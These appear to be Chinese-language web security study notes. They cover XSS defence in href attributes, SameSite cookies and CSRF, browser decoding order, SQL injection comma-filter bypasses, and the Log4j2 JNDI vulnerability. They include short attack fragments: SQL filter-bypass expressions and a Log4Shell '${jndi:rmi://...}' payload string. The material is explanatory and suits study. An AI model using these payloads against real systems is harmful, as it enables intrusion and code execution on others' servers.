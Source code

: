 #### 输出到href的XSS如何防御

~~~
对href标签做防护，仅靠htmlspecialchars()是不够的，还需要做过滤，在输入的时候只允许HTTP和HTTPS开头的协议
~~~

#### samesite防御CSRF的原理

~~~shell
SameSite有三个属性Lax, Strict, None
Lax：b站上通过超链接访问a站，会携带a站cookie。b站通过img标签等跨越请求a站时，不会携带cookie，设置的cookie也不会起作用
Strict：b站上通过超链接访问a站，不会携带a站cookie。b站通过img标签等跨域请求a站时，不会携带cookie，设置的cookie也不会起作用
None：b站上通过超链接访问a站，会携带a站cookie。b站通过img标签等跨域请求a站时，会携带cookie，设置的cookie起作用

Firefox v83默认SameSite=None，SameSite=None时，还必须加上Secure属性cookie才会被浏览器接受
Chrome v87默认SameSite=Lax，该配置对CSRF有相当大的防御力

对CSRF漏洞的影响
1、get类型的csrf漏洞，原本可以通过img/script等标签完成攻击，但由于SameSite=Lax属性，攻击无法生效，只能通过访问超链接方式攻击

2、post类型的csrf漏洞，ajax可以完成content-type为application/x-www-form-urlencoded的csrf攻击，form表单（target=subiframe，隐藏iframe）也可以完成攻击。由于SameSite=Lax属性，只有通过form表单提交到新页面完成攻击
~~~

#### 浏览器解析顺序和解码顺序

~~~
url
我们先传入 ?/input=input=%26lt%5cu4e00%26gt 时先进行了一次url解析，变成了&lt\u4e00&gt
html
紧接着进行html解析，变成 <\u4e00> 
js
再之后js解析，得到<->
~~~

#### sql注入过滤逗号

~~~
1.盲注：substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替
2.
使用join：
union select 1,2 = union select * from (select 1)a join(select 2)b
3.
使用like：select ascii(mid(user(),1,1)) = 80 
=
select user() like 'r%'

~~~

#### log4j2漏洞

~~~
Apache Log4j2是一个开源的日志记录组件
利用了Log4j2可以对日志中的“${}”进行解析执行
利用jndi访问ldap服务后，ldap服务返回了class攻击代码，被攻击的服务器执行了攻击代码

"${jndi:rmi://127.0.0.1:1099/hack}"
~~~
